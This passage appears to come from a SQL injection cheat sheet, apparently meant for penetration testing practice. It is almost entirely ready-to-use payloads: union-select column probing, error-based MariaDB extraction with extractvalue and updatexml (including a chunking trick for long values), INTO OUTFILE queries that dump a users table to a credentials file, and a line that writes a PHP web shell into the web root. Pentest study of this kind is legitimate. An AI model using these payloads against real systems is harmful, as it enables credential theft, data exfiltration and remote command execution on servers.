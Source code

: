 - `UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -`
- `SELECT * from users INTO OUTFILE '/tmp/credentials';`
- `select 'file written successfully!' into outfile '/var/www/html/proof.txt'`

PHP code:

- `union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -`

# Attack types

---

## Union Select

Detect number of columns using `order by`

- `' order by 1-- -`

Detect number of columns using Union injection:

- `cn' UNION select 1,2,3-- -`
- `union select 1,2,3,version()-- -`

## Error Based

MariaDB payloads:

- `and extractvalue(1,concat(0x7e,version()))-- -`
- `AND (extractvalue(1,concat(0x7e,version())))`
- `and updatexml(1,concat(0x0a,version()),null)-- -`
- `and (SELECT*FROM(SELECT(name_const(version(),1)),name_const(version(),1))a)-- -`

Get pieces from output:

- `and extractvalue(0,concat(0,(select (select mid(<colum_name>,1,99)) from <db_name>.<table_name> limit 0,1)))`

Or

- `and extractvalue(0,concat(0,substring((select <colum_name> from <db_name>.<table_name> limit 0,1) from 1)))`

`IudGPHd9pEKiee9MkJ7ggPD89q3Yn…` 

We got the first 32 chars from the output,because the function `extractvalue()` only return this length of a string!

- `echo -n 'IudGPHd9pEKiee9MkJ7ggPD89q3Y' | wc -c`

Now change the `index` to 1+29 = `30` (29 because the … is 3 and 32-3=29)

- `and extractvalue(0x7e,concat(0x7e,substring((select <colum_name> from <db_name>.<table_name> limit 0,1) from 30)))`

`ndctnPeRQOmS2PQ7QIrbJEomFVG6` and the next `index` is 1+29+29 = `59`
